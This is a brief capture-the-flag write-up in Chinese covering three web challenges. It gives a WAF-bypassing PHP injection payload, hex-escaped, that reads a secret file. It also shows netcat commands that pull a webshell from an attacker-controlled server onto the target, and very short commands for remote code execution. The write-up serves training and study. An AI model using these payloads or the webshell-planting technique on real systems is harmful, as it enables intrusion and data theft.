 # WEB
- ## easy_calc
  
  题目没有禁止分号，可以执行其他指令。
  
  题目没有禁止反斜杠和双引号，可以使用双引号加转义绕过WAF。
  
  payload: `num1=1&symbol=+&num2=2;include"\x64\x61\x74\x61\x3a\x2f\x2f\x74\x65\x78\x74\x2f\x70\x6c\x61\x69\x6e\x2c\x3c\x3f\x3d\x60\x63\x61\x74\x20\x2f\x73\x65\x63\x72\x65\x74\x60\x3f\x3e"`
- ## easy_cmd
  
  注意到netcat可以使用`-o`输出文件，可以利用这个方法写入webshell
  
  在VPS上搭建：`cat a.php | nc -lv 3003`
  
  然后在目标上执行命令：`nc -o a.php xxx.xxx.xxx 3003`
  
  即可将`a.php`输入目标，访问即可。
  
  注意：webshell要短
- ## web签到
  
  小于八个字符的[RCE]([[CTFWEB/RCE]])
  
  ```shell
  ls />a
  nl /*>a
  ```